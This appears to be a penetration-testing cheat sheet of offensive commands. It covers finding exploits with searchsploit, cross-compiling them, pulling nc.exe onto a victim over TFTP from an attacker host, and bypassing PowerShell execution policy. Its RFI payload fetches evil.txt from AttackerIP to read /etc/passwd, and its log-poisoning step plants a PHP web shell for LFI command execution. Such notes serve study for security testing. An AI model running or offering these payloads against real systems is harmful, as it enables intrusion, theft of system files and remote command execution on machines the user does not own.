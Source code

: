Finding Public Exploits:  
`www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory`

**Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux .   
wine exploit.exe #Run Windows executable on Linux`

Convert Python Exploit to Win Exe  
`#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
python pyinstaller.py —onefile ms11-080.py`

**File Transfers**  
TFTP  
`#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  `

PS File Transfer  
`#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy`

**Web Application Attacks**  
LFI/RFI #usually in poor php code .  
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI   
#Contaminate the web server log with a PHP backdoor .  
$ nc -nv TargetIP 80  
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
